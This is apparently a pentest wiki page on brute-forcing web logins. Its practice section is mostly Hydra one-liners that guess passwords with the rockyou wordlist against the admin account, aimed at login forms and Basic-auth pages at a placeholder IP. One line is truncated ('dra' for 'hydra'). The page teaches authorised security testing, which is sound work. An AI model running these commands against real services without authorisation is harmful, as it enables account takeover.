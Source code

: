 # Brute-Force

## Theory

We may attempt to brute-force a web service as we may not be able to fully interact with it without credentials. Most web services come with a default user account such as **admin** and may use [common, default, weak or leaked passwords](../../../redteam/delivery/passwd/default-weak-and-leaked-passwords.md).&#x20;

For our brute-force attack, it will dramatically increase our chances of success and reduce the expected duration of our attack. We even may [generate our own wordlist](../../../redteam/delivery/passwd/generate-wordlists.md) for this purpose.

## Practice

{% tabs %}
{% tab title="Authentication Forms" %}
We can use Hydra to perform such attack on HTTP/HTTPS forms. We might use following methods:

* **http-get-form,** in case of an http page with a get form
* **https-get-form**, in case of an https page with a get form
* **http-post-form**, in case of an http page with a post form
* **https-post-form**, in case of an https page with a post form

This methods take parameters in the following format

```
<Path_To_Login_Form>:<Post_Data>:<Incorrect/Correct_String_Params>
```

```bash
# -l : username
# -P : password list
# http(s)-*-form : "<Path_To_Login_Form>:<Post_Data>:<Incorrect_String>
# -s : Specify a port 

# Find on error
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=^USER^&password=^PASS^:Login failed"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 <IP> http-post-form "/login.php:user=^USER^&password=^PASS^:Login failed"

# Find on success
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-post-form "/login.php:user=^USER^&password=^PASS^:S=302"
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get-form "/login.php:user=^USER^&password=^PASS^:S=Success!"
```
{% endtab %}

{% tab title="Basic Auth" %}
We can use Hydra to perform such attack on HTTP/HTTPS websites using Basic auth. We might use following methods:

* **http-get,** in case of an http page with basic auth.
* **https-get**, in case of an https page with with basic auth.

```bash
# -l : username
# -P : password list
# http(s)-get : "<Path_To_Protected_Page>"
# -s : Specify a port 

# HTTP
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get "/page_url"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 <IP> http-get "/page_url"

# HTTPS
dra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-get "/page_url"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 4434 <IP> https-get "/page_url"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}

{% embed url="https://github.com/gnebbia/hydra_notes" %}

